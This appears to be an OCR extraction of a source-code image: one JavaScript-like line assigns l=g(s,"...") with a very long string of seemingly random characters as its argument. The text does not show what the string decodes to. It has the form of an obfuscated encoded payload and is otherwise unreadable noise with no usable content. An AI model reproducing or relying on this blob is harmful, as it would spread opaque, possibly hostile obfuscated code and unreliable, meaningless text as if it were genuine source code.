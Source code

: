 l=g(s,"*sucXNL?2agM0zR%?M2c0cGXX?2R0?S2Xa%rX8?gM6Ouc2?%M%aXzMsXNNaLs22z0zwauR2X00sNRuusLcggRcuXLN%aX0a0zzscNaacR8gRR%c#?sMu%ccX?N?L%aXc?aMg%M?zRMusL?g%%csu?ugz%ccg^aN?2a0g_M2zPuXu?Rg%z?cc2N0s%Xu?20Mz(0XRsMN0azzRs%L;0sXMLcLLgMRLu?L2R0Ncaz0%saNccs?2Ms%uccMNugLggL0jsgLNgX?RMR%Rc%25uceXX22X0NtLa8%Lc0L%M%2Rzc=RX%ats2?R0u%LcL2uNaaRzasgNM%LuL200cHNNauXLggXRNuLg2V%NuaLzXuYLLcJ?gMF%scuMasNL2ggzL%aLzgRz0s%L2XoaX0^GsXuzLua?sgMRgc0L22z%gcaL%g%:cu%L2M?%XXX2X0X)gzgsgNgaMz022LZgaR<usLuqaNLaXzc%LXR2%zzsQL4u%?Ng%%!csMLs2NgaLRMucL0ca?gMM%0cz?RM%R:2U2X0MSXXN2LsN??MM%?u0?2aL%uzss?Nsauzc?g0?(NXXLggJz0zzuzNzaRz%LszLsLNuXXgM,?NaaN2a%gN?2zRLscLsgc?sMu%ccX?NML??asMaM0%%c0?zMRNXMXRguR(NXg2N0L{?a%%2c0??MWMRztscNlaszuN?0L%Lczs?N2aazgsMN0zzX2N%LugNRuucLX0NAML2aXgMRzuML0gzsc22aRMcAdcc?XMNcMgcRsuzN%NM0XcuL0McRNccuu?z2L00(LX?22cSL%M%zXcL2u0uauz0suNcaXu??MMR>sX02R0zsNug?%0%gGRsuuLcgXRN2Lz1R2RMuzLMg0Rz??Ru%s%cXu?cMX%N?RR0uNNgg2RguNLsa,RRu%?NauRXcL?aX22%02BaXgzMcM2JM?Ucca2j0QaNzMsNNLa?Xg?R0MsOXN2%0cgsR?usLugccX2L0g<MNsa?zsgz<cuzLRg%LuacRgsXL?g2zMuMLsazMXRguM?Xg%%Xc??NMg%gcN?0Mg0?62Xa2g0MF02z%?V%sGNsauzcsXNNaLclN2NMgszMs0Nz%cXz2uzdssNLa2L?MsR?u2LaRzNzas0RuuNX?0zusXN2gt?NML%?c2?aMg%Mc0MzMR%%X_2s0uUcXXga4LSaXR2a0gSMa0RRX#?XMRFNzXusNXaNzL?sgsw?cR2QzXz%Xc2?0ss?XMauzLg?RRu?L2gauM2%z;R%Nga8zRs0%XXs?XMN%L2gzzuNN%aR%,s0XRgMRscgL?MN%?0?AzX?220aXRMzRzXX??Mz%?zcu1NcaXzNN?MM%0uM2c0u3XNs?u01JuXcaszMgLRzuLL?g2ca2MzzumNLaszMsN%cca?cMX%N?aRLugNR2s%7uN%zcR?%03WsXu1ccgXNX2au02xaXg00u%?nMc%zXXNX0s%%Xc2?N2gXz2saNgR2cz220cRcNu2u0a4gXN2?zu30RgccLggMR0?XRcs2XcaLRXuaNza2zMM?RX2gcuza2su2u%?R}uXz2u0c)Xas%Nug?cgRRRs%?MazR%Xs2XNcgczcsXNNz?X02002%aus?z0%=McR?O0zVcN02az?saRacnLaggRM?NzMf%NugXzgu2N2cL?MML%?c20?uaL%gNRcc?%%Xw2s0u8cXXuNcwX?X22a0g{MX02z0RXMa,aczNscNXaNsa2L0NaMRXsMN0azum2Rzu6NX?aNMssXXg20Lgg0RguML09sNza%?uMa%ucc?XQsN%azzzuzLcg2RsMzRga7c2z%2?uRcNfXf2N?220aHgaL%sXL?jM2%RcNNN0u>uXa??04GLcR20NzgNzzsRN%RLNqa22cR?NXauzLsgRMc2LMg0Rz?szRszNcacR?scX0aMz2u2L2g2RRMRtucR?%0rNNgM%?chLgX2aN02&aXgzRcs?aMc%uXXcsgu%%cN2RMMBaXMsMN0aMz0sz2cRsRuu%LugcRXLL0geMuMa2zLsgNR?zz?suNMaLRXMc%XcN?LM?%2cagR%M%RXs?RM%ZFaN%scu?FX?aN0?32Xa00u0L%M2%NXs?%0L/fc?N?0X#uXL2gNMgNzMs0NzfRNs2%zN_?XLa20XAzN0asLMg%RMu0LzzcNcaRzNzR%Nc0?NML%?2MRucXLON00cuz?NXu2L0u>cXX0?cN?LMM%z00s?X02z0RNsM%#ccL?20Lz2XN2c0?wMFzszLuazzRs%zXsgNu22zc1MR2uzL2gaRg2s0zsaLcaXRcMs%ucc?XMN%Lc?20%a%0XN?0Mz%RaRz%u%LcM3Rau2L?Mc%X0MsuXM200zNaMX<acc?M0s%2X2s2N%a2zasga01.XsLg036uXL2RLNgaRNuLL?s2Xgaczzs%R%cRL%MY%s2+Ruu2NRa0R,sMNggRRXuMLM?%%suNLuXu2c0XcNc?za22/X2M2zzalzXR2%sc2mMRIuXLL2MMo2Xz?R02%RXss%Lua%R3uszLn0X?amL2g%R2uaLg%%NM2s0%usN?aLRLMN%gcN?LM?X%g2R0u?L ?o2b0N)5Xs2ucLL?M?R%c??0XM2R0Mx0Xz%Nc9?zMLauzcsXNNaLz?N2MuzgzzuRNzaRz%?X0LtRX2aXzXs2NM2?zzsaXg?0za1%L2aNRcMX%RcX?NMLX?aazzsRLXggRXDgLXgL%N0X.gXX2N0LNzgzR0cR?gMR0/z sgNeaszuLu0uzzc%?R0EKNXc2u0XssRruaLegsRu?czn+LN%20zg%?XMa2zsg%%Nu%?&MsNaa2R2s0NMgNRRMM%%cM?0MzXMMXR0cNLMXN2R0NqLX?zMc2??MFg0cq?zMM%%XcsXN0aXzNsLgg-zX02RM06NXM2c0cg RsuuLcgXRNLLzLR2RMcLLMg0Rz?sz6szNLgXzXO?Nza?RuszLMc02uM0%zcRzRs%LgM)R?ua?zXL2?02IaXg2Mg0gu2Rasz?ssNuacuX2sM?%gczLuMRazRcszNRa%u?2LzSq2NL2Lzuga%cuaLggMcu2RRsucsO?uRLu?NNa2RsMa%%ca?gMMXsgMz%usL0gLRL0N#gXN2L0??sM?%zc<?R0sapzRsiNsausL2c0u%2c220a%:0c02a0usNXRau00guRcuXLNgLR?G2z2RgRzXuLzgRR%?sRLuLLuNXMMs?LagNaa>gL?az%Luc?sMcgs+c?2MLRL02sNX22a0gNuMs3ssu?Y0u%0c?2Na?KXXu2L0gaMRNsMN0azcs2%zu:LXc2?gNscXzac0zgMRRuML0gzcMa,zas%%Ncc?L0X%Lc??2%gL%g%RMs0XXgA%uuRLs2%RacMLMMc2gzc)gXM20-R?uMczXcg22M0%2cg22N?a2zasgNMa0azaga%guR2uuLcgXu2aNzXs2Xg2zz%gR%LuRL%MxXXgLRuuXXagzz0szL?c026M0%zcR%cusLcgRR20LAaXL2?02NNg%%sXSA%NL2%z}ssa2%Xc2?R0X%Rus2?NgaMz0szNRa%RAlagsgN%cuNLLg?ua200zs,NggsMssRN0g;RX%?NNg?RsMax4ca?gMMXRguRNu2?cMN%Xc0VXXN2L0?y2Xa2gsXX0X%ag0%s9NszccL??Mgfuc02gMgCRXX2M0MgU%sulLsguu?2az2PaX0aL0zhMNag,M%scN0a%R?sMLsaM??MM%?c2?a%zLgg2R0ct(s??2s0u_ca2Rzu%?gL2R%cc??MsgzXN?30cMsXu2N0c8acM?g00%RcRcMzcqLNu2?2GRRNsauzu%2XM2g22%%szXM0RuL{R?NzNsNN?gNzNussa?9Ms%ucccz?RMz%Rc%z%b2lXX02X0NZLaRRaczL%Mz%auR2UMgauzasuNcaXs0?M0MRNX22%0REsz%cXN%g;RsLcz2s2NXXLgzIaNMa?2M%sNaa?RcsNss?gR2uuLaaMRaMg{Xcg?MM0Xug%%Xua?saaR2uN?NMN%N023aXguMs%Mgzu?cssscNgaczXsNa2%2cM2X0g%0c%22LhMsR usLu%NXaauzNszXzL%z0sgNa?%zcsLNagXRLuNLzc?2sM?%2cazluXLRMs%cu L0aL%Nu2?LX?200?p2Xa0zcg?2M0}7=usuN2auzcsXM0%MXM?RMRb2NssRL2aRz%upg2f?N?L?0zU%Nc20zMn%Nau0??2NaughgRM0Mg?c??M0%?c2?aH0N0gnRLcc?uX{2s0u_cXX2N0Ls?222Mzg(MX02zs?2uazD/X?2LMaRXX0?00gz%X0?00aOuRCu?L7gsRu?uzu%gNXacz?}gXRuzL%gzRRu%MzsuLgcN2;MN%Lc?0z(uXLgXR%csXgg4%ac!??M?2L02VLX?22d%?a0s2RzRrRX%aDsL?%M0o?X2?%0LoLsz2c0zfsX_au02y%X%uXLzgXRNuLggsHXR2zzL%zLuacRuuX%ccL?cMX%NggRsu%ugc02zM0%zcRzcuNLzg?%ccc??Mgg?c0?2LgzMc2LR0?%XXuscN%aczXsNaz%0X0LzM%scN:N%0zsXXR2NzNgN%uuNLLg?cXauzsscL,?Lz0sNN0gLz?usN?ag?20?%2ca?g%zNzgkRauL?uM&%?csL222%Ncc??MMMz0zsuXz2R0%LuMg%as%?zM?a2Rvs2Naagug2ggGALX;2R02,?X?uLLzgLR?u2M?s%N2?%zLsuNXgc?c0u%ccX?N8aN0ggzgugLc2u%uusLga?RLuc?cMc%c02s8X22a0gLJaNzzu%?cMX%gXe?gNLa0zLs?N2%%XaasMz_LXM20Lug2RuucLX%MXM2gz0s2N0NzLRMaRRu%?klXN?g?0MsLLga0RguLNMgzR?M%/ac%2d0sNtM2%su?LMMazgug?2Mu%s0zwRX%alzssuNcaXzNs2N0a2zasgaz72cR2s0gguR?uuLcgXu22MzNs0XRa0LzMcRzuRL%5LNggNz0sLLsaM?a0c%acg?M%zLsgu0ccu?9MuR?cc?0MX2azRVaXg2M>RLRMs%gc?2c0sw2Xu?agg{aca2?0zrMcz2%0c7zXcagLXMaRXuNLLR2Nzazzalgcu2RRCs0X%?LzRs0L2agzN%%Lzg?RRuBLRc%2?M%j=Xs02uXL2gR%XuRN?MR%R0zsXXz2R0%Lu0CO?Xs?2MR+XcRsgL2agzMs0aRscNc2%2sR2XXaLzu0Lc2az0RszN%uR?sgRR%cdRNscLLa%?NML%?c2?aMgMMaRMzMR%%XI2s0uoc0X0N L_aN?2a0g.M2R%0XS?cMNqcuN?00R%guL2tzT%RXLszL2azzRs%gcscX?2Xz2xgcza:zLEzNaguLRM0RRu%? %uL?g?RczNc0a2RguLsg2?RsccLcgM2uz?PuXc2Xs2LMMMz%ug?RM5%RcgL%0s%Mu??M0L%zc??%0cfsXzacNzgXzzsRN%%XXLagz?%?XRg#00gg%cugLMg0c%gczz>cNLgXRaszN2aM?aMz%acg?Mr%LzgcRXuX7cX?2c0XTN22%acs??Ms2zRuTzXR2%sz2&0?=LcaNR0aRLXR?R00RgX02u00{XXXL?zX_XNs2gL2gMR2uaLg%zXzgszcMsWscs?uMcXLagRLucLsa0zMu%LsgszsccL%McRcugLaX?200?}2XaRscg?RMa%u{ssuL{auzcsXgN%?Xa200u%zX?2sguDMX2aXzN+?NNuLLzgLR?u2M0sgN42%Rs